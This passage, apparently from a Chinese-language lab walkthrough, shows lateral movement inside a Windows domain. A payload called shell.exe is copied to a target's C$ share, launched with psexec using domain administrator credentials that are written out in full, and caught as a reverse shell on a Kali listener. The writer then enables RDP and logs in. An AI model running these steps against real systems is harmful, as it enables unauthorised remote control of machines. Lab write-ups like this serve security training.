 ![](https://upload-images.jianshu.io/upload_images/7216746-ff6a28d9bd35464f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用copy命令将先前生成的shell.exe拷贝至靶机C盘

```
copy shell.exe \\192.168.141.111\c$
```

![](https://upload-images.jianshu.io/upload_images/7216746-96e53ba1fe9afbad.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-4d7c5d6618b8973e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在kali上开启监听(6666端口)，使用psexec.exe.启动靶机上的shell.exe



```
psexec.exe \\192.168.141.111 -u hiro\Administrator -p hb123456,./$ c:\\shell.exe
```

![](https://upload-images.jianshu.io/upload_images/7216746-ad42da32db35d329.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


成功获取shell

![](https://upload-images.jianshu.io/upload_images/7216746-528460880f398671.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

打开一号机3389

![](https://upload-images.jianshu.io/upload_images/7216746-9825f280dc8352be.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用用户名:hiro\Administrator 密码: hb123456,./$登录

![](https://upload-images.jianshu.io/upload_images/7216746-f44a435c1f05c2ff.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

成功拿下一号机！
